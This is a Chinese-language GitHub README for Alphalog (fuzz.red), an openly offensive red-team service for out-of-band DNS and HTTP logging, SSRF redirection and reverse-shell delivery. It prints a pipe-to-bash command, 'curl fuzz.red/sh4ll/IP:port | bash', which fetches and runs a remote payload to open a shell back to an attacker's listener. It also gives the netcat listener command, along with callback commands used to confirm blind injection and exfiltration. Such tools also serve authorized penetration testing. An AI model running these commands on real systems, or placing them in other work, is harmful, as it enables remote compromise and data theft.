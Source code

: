 <img src="fuzz.red.jpg">

# Alphalog

Alphalog 更快、更安全。支持完全匿名 产品(fuzz.red)

```bash
  $$$$$$\  $$\           $$\                 $$\                          
 $$  __$$\ $$ |          $$ |                $$ |                         
 $$ /  $$ |$$ | $$$$$$\  $$$$$$$\   $$$$$$\  $$ |      $$$$$$\   $$$$$$\  
 $$$$$$$$ |$$ |$$  __$$\ $$  __$$\  \____$$\ $$ |     $$  __$$\ $$  __$$\ 
 $$  __$$ |$$ |$$ /  $$ |$$ |  $$ | $$$$$$$ |$$ |     $$ /  $$ |$$ /  $$ |
 $$ |  $$ |$$ |$$ |  $$ |$$ |  $$ |$$  __$$ |$$ |     $$ |  $$ |$$ |  $$ |
 $$ |  $$ |$$ |$$$$$$$  |$$ |  $$ |\$$$$$$$ |$$$$$$$$\\$$$$$$  |\$$$$$$$ |
 \__|  \__|\__|$$  ____/ \__|  \__| \_______|\________|\______/  \____$$ |
               $$ |                                             $$\   $$ |
               $$ |                 By:Alphabug                 \$$$$$$  |
               \__|                 Version:0.2022.01.15.05      \______/
```

# Welcome to Fuzz.Red #
Usage:
1.Get Token and The randomly named subdomain (Expires:1 Day)
$ curl fuzz.red/get
=>	{"key":"63d755be-9683-40a9-91fb-b85890155872","subdomain":"oz4e.fuzz.red"}

2.Get Log

```bash
curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872"
{"code":200,"data":[]}
```

# DNSLOG

```bash
ping -c 1 oz4e.fuzz.red
```

```bash
curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872"
{"code":200,"data":["{\"ip\":\"192.168.1.1\",\"reqbody\":[\"\"],\"subdomain\":\"oz4e.fuzz.red.\",\"time\":\"2022-01-14 17:01:17 +0800 CST\",\"type\":\"dns\"}"]} 
```

# HTTPLOG

```bash
curl oz4e.fuzz.red -d "abc"
```

```bash
curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872" | python -m json.tool
{
"Code": 200,
"Data": [
	{...}]
}
```

# SSRF

```bash
curl -L fuzz.red/ssrf/www.baidu.com/
=> <!DOCTYPE html>...(www.baidu.com page)...</html>
```


# 反弹shell

```bash
$ curl fuzz.red/sh4ll/ip:port
```

Server

```bash
$ curl fuzz.red/sh4ll/1.2.3.4:1234 | bash
or $ curl fuzz.red/sh4ll/1.2.3.4:1234 | sh
```

VPS

```bash
=> $ nc -lvvp 1234
=> listening on [any] 1234 ...
   connect to [1.2.3.4] from fbi.gov [127.0.0.1] 46958
```

## 作者有话说

###  项目名称为：Alphalog，作者Alphabug。
采用Go编写开发 DNS服务、Http服务等，后续等待开源。

项目域名为匿名域名，请求接口没有做任何的记录。所有dnslog存活时间为1天，大家可以亲测。

（请勿CC/DDos，服务器特别贵，可能没办法退钱）
       
## 项目日志：
- 2021年12月14日 17:30:35 第一个版本完成
- 2021年12月14日 20:14:57 特别感谢团队成员hexman、Longlone（WaY）测试提出的各类bug。
- 2021年12月14日 20:26:33 上架公测，我是Alphabug欢迎大家提需求，目的就是让dnslog扩展性更高，如果您有建议请邮箱联系我：alphabug@redteam.site
- 2021年12月14日 21:17:15 页面不再更新，Issue 上github吧。项目地址 https://github.com/AlphabugX/Alphalog
- 2022年01月15日 17:07:41 添加httplog功能，升级数据格式。
- 2022年01月15日 17:52:03 添加SSRF辅助功能。
- 2022年01月15日 18:52:42 添加反弹shell功能,支持bash、sh、nc、python、awk、telnet弹shell方法。

